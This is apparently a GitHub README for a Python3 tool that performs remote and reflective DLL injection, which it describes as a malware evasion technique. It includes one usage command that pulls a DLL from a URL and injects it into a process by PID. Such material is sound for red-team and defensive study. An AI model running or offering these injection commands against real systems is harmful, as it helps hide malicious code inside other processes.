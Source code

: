 # buffdawg
DLL Injection is a common evasion technique used by many malware samples. This is an implementation of remote dll injection in Python3. It also includes a "Reflective DLL Injection" feature via sRDI's ConvertToShellcode function by converting the DLL into shellcode to perform remote process injection from memory.

# Usage
`python buffdawg.py -u http://127.0.0.1:8080/whoami.dll -p 11756 -f C:\\Users\\Public\\hi.dll`

![Help](buff.PNG)


# Reference 
https://github.com/monoxgas/sRDI
